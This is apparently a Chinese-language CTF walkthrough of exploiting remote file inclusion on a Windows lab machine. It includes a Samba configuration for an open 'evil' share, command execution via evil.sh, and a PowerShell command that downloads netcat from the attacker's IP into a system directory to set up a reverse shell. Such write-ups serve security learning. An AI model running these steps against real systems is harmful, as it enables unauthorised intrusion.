 **- 远程文件包含漏洞（Remote File Inclusion）**

由本地文件包含漏洞的思路出发，尝试远程文件包含漏洞，这里的思路是使用Samba服务建立公共共享。

配置`smb.conf`：

```txt
...
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = kali
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

# add to the end
[evil]
   path = /home/sniper
   writable = yes
   guest ok = yes
   guest only = yes
   read only = no
   create mode = 0777
   directory mode = 0777
   force user = nobody
```

构造`php.info`文件，并启动Samba服务，检测远程文件包含漏洞是否存在。经过检测，确实存在，成功读取到信息：

![](https://p5.ssl.qhimg.com/t0152ca3cbd748d4cc5.png)

![](https://p3.ssl.qhimg.com/t01746962ef968ff3e9.png)

## 0x04 获取低级用户的shell

构造`cmd.php`、`evil.sh`，实现命令执行，并查看到当前用户名`iusr`：

![](https://p4.ssl.qhimg.com/t014804465010e5f8b1.png)

```shell
~ ./evil.sh whoami    
nt authority\iusr
```

为了获得一个反向shell（reverse shell），需要使用`evil.sh`上传`netcat.exe`到靶机中。这里尝试了一些文件目录都没有成功，我猜测应该是`iusr`的权限问题。最终在`C:\windows\system32\spool\drivers\color\`目录中成功上传`2.exe`(netcat)：

```
~ ./evil.sh 'powershell /c iwr \\10.10.14.67/evil/nc64.exe -outf \windows\system32\spool\drivers\color\2.exe'    

~./evil.sh 'dir \windows\system32\spool\drivers\color\'                                                          
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\windows\system32\spool\drivers\color

03/31/2020  03:21 PM    <DIR>          .
03/31/2020  03:21 PM    <DIR>          ..
03/31/2020  03:21 PM            43,696 2.exe
09/15/2018  12:12 AM             1,058 D50.camp
09/15/2018  12:12 AM             1,079 D65.camp
09/15/2018  12:12 AM               797 Graphics.gmmp
```